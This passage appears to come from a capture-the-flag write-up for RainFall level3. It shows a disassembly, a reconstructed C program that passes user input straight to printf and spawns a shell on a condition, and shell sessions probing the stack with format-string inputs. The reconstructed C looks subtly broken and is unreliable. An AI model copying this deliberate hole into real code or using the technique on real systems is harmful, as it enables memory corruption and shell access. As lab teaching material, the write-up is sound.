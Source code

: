 ```bash
gdb-peda$ disas 0x8049880
Dump of assembler code for function stdout@@GLIBC_2.0:
   0x08049880 <+0>:     add    %al,(%eax)
   0x08049882 <+2>:     add    %al,(%eax)
End of assembler dump.
```

### Equivalent C source code

```cpp
// level3@RainFall:~$ cat /tmp/lol.c
#include <stdio.h>

# define m 0

void    v(void) {
        unsigned char buf[536];

        fgets(buf + 520, 512, stdin);
        printf(buf + 520);
        if (m == 0x40)
        {
                fwrite("Wait what?!\n", 1, 12, stdout);
                system("/bin/sh");
        }
        return ;
}

int     main(void) {
        v();
        return (0);
}
```

### Walkthrough

```bash
level3@RainFall:~$ ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

level3@RainFall:~$ ./level3
%p
0x200
```

- [Printf vulns example](https://blog.skullsecurity.org/2015/defcon-quals-babyecho-format-string-vulns-in-gory-detail)

```bash
level3@RainFall:~$ ./level3 <<< '%x %x %x %x %x'
200 b7fd1ac0 b7ff37d0 25207825 78252078

level3@RainFall:~$ ./level3 <<< 'AAAABBBBCCCC%x %x %x %x %x'
AAAABBBBCCCC200 b7fd1ac0 b7ff37d0 41414141 42424242

level3@RainFall:~$ ./level3 <<< 'AAAABBBBCCCC%x %x %x %x %x %x'
AAAABBBBCCCC200 b7fd1ac0 b7ff37d0 41414141 42424242 43434343
```
